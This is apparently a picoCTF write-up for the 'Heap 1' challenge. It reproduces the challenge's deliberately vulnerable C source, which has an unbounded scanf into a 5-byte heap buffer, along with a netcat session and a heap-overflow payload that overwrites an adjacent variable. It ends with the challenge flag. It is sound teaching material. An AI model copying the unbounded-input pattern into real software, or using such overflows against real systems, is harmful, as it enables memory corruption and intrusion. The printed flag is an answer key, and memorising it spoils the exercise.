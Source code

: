 ```yaml
---
layout: post
title:  "Heap 1"
description: Writing and understanding a buffer overflow payload
date:   2024-10-22
tags: ["Medium", "Heap 1", "Binary Exploitation"]
category: [CTF,picoCTF]
---
```


## Challenge Info
Can you control your overflow? Download the binary [here](https://artifacts.picoctf.net/c_tethys/1/chall). Download the source [here](https://artifacts.picoctf.net/c_tethys/1/chall.c).

Additional details will be available after launching your challenge instance.

## Understanding vuln.c

The code for your convenience:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

void print_menu() {
    printf("\n1. Print Heap:\t\t(print the current state of the heap)"
           "\n2. Write to buffer:\t(write to your own personal block of data "
           "on the heap)"
           "\n3. Print safe_var:\t(I'll even let you look at my variable on "
           "the heap, "
           "I'm confident it can't be modified)"
           "\n4. Print Flag:\t\t(Try to print the flag, good luck)"
           "\n5. Exit\n\nEnter your choice: ");
    fflush(stdout);
}

void init() {
    printf("\nWelcome to heap1!\n");
    printf(
        "I put my data on the heap so it should be safe from any tampering.\n");
    printf("Since my data isn't on the stack I'll even let you write whatever "
           "info you want to the heap, I already took care of using malloc for "
           "you.\n\n");
    fflush(stdout);
    input_data = malloc(INPUT_DATA_SIZE);
    strncpy(input_data, "pico", INPUT_DATA_SIZE);
    safe_var = malloc(SAFE_VAR_SIZE);
    strncpy(safe_var, "bico", SAFE_VAR_SIZE);
}

void write_buffer() {
    printf("Data for buffer: ");
    fflush(stdout);
    scanf("%s", input_data);
}

void print_heap() {
    printf("Heap State:\n");
    printf("+-------------+----------------+\n");
    printf("[*] Address   ->   Heap Data   \n");
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", input_data, input_data);
    printf("+-------------+----------------+\n");
    printf("[*]   %p  ->   %s\n", safe_var, safe_var);
    printf("+-------------+----------------+\n");
    fflush(stdout);
}

int main(void) {

    // Setup
    init();
    print_heap();

    int choice;

    while (1) {
        print_menu();
	if (scanf("%d", &choice) != 1) exit(0);

        switch (choice) {
        case 1:
            // print heap
            print_heap();
            break;
        case 2:
            write_buffer();
            break;
        case 3:
            // print safe_var
            printf("\n\nTake a look at my variable: safe_var = %s\n\n",
                   safe_var);
            fflush(stdout);
            break;
        case 4:
            // Check for win condition
            check_win();
            break;
        case 5:
            // exit
            return 0;
        default:
            printf("Invalid choice\n");
            fflush(stdout);
        }
    }
}
```
- The program allocates memory on the heap for two variables: `input_data` and `safe_var`, each being 5 bytes in size.
- `strncpy` copies initial values into these *buffers*.
- The `write_buffer` function allows us to write to the `input_data` var using `scanf`.
- The `check_win` function verifies that the `safe_var` var has been changed from `bico` to `pico`. If it is, then we get our flag.

## Vulnerabilities
There's several vulnerabilities to note:
- The buffer for size for `input_data` and `safe_var` are only 5 bytes, meaning they should be easy to overflow.
- The `scanf` library function does not limit our input size, meaning we can enter strings longer than 5 characters (this should be an instant giveaway that it will be a buffer overflow challenge).


## Connecting to the netcat listener
```terminal
> nc tethys.picoctf.net 55943

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x63159a0182b0  ->   pico
+-------------+----------------+
[*]   0x63159a0182d0  ->   bico
+-------------+----------------+

1. Print Heap:		(print the current state of the heap)
2. Write to buffer:	(write to your own personal block of data on the heap)
3. Print safe_var:	(I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:		(Try to print the flag, good luck)
5. Exit

Enter your choice:
```

To clarify, `pico` and `bico` are the values inside the variables (`input_data` & `safe_var` respectively) that were declared at the start. The reason that the variables are allocated with 5 bytes, despite only containing 4 characters, is because we need a [null character](https://en.wikipedia.org/wiki/Null_character).

To understand the distance between each variables, we subtract the address of `pico` with the address of `bico` (or vice verse).

`0x63c3882552b0 - 0x63c3882552d0 = -0x20.` If we run `-0x20` through [cyber chef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')To_Decimal('Space',false)&input=LTB4MjA) we get `32`. Because our initial hex value was negative, that means that `safe_var` is 32 bytes behind `input_data`.

## Solution

We now know that `safe_var` is 32 bytes behind `input_data` so we just need to overflow the buffer with 32 characters, and then write 'pico' to get our flag.

For the sake of simplicity, it's more efficient to use numbers for our characters. So instead of typing 32 *A's* followed by 'pico': `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApico`. We can just count in multiples of *5's* (or whatever you prefer) and then write pico:

Our payload: `12345123451234512345123451234512pico`
- Six `5`'s = 30
- 30 + 2 = 32 (you've reached `safe_var`)

flag: `picoCTF{starting_to_get_the_hang_79ee3270}`


